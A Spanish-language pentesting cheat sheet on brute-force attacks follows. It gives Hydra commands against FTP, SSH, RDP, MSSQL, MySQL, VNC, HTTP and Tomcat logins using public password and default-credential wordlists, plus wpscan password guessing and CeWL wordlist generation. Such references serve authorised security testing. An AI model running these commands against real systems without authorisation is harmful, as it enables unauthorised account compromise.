```yaml
---
layout: article
title: Pentesting - Ataques de fuerza bruta
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


<h1>Fuerza bruta a servicios</h1>

<h2><b>Hydra</b></h2>
<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">FTP</div>
</div>

~~~bash
hydra -l ftp -P wordlist.txt -v <IP> ftp -o ftp-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">SSH</div>
</div>

~~~bash
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u <IP> ssh -o ssh-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">RDP</div>
</div>

~~~bash
hydra -V -f -L users.txt -P passwords.txt rdp://192.168.1.100 -o rdp-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">MSSQL</div>
</div>

~~~bash
hydra -L /usr/share/wordlists/SecLists/Usernames/mssql-usernames-nansh0u-guardicore.txt -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt 192.168.1.100 mssql -o mssql-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">MySQL</div>
</div>

~~~bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt 192.168.1.100 mysql -o mysql-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">VNC</div>
</div>

~~~bash
hydra -s 5900 -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt -t 1 192.168.1.100 vnc -o vnc-creds.txt
~~~
<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP - Basic Auth</div>
</div>

~~~bash
hydra -L users.txt -P passwords.txt 192.168.1.100 http-head /webdav/ -o http-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP - Tomcat</div>
</div>

~~~bash
hydra -C /usr/share/seclist/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 192.168.1.100 http-get /webauth 
~~~

<h2><b>Otras herramientas</b></h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP - WPscan</div>
</div>

~~~bash
wpscan --url http://192.168.1.100/wp --passwords=passwords.txt --usernames admin -t 20​
~~~

<h1>Misc</h1>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">CeWL</div>
</div>
[https://github.com/digininja/CeWL.git](https://github.com/digininja/CeWL.git)

Generador de wordlists que recopila palabras clave de las URL del objetivo (spider del target). Esta lista puede ser utilizada como diccionario para logins en aplicaciones web.

~~~bash
./cewl example.com -d 1 -w example-keywords.txt
~~~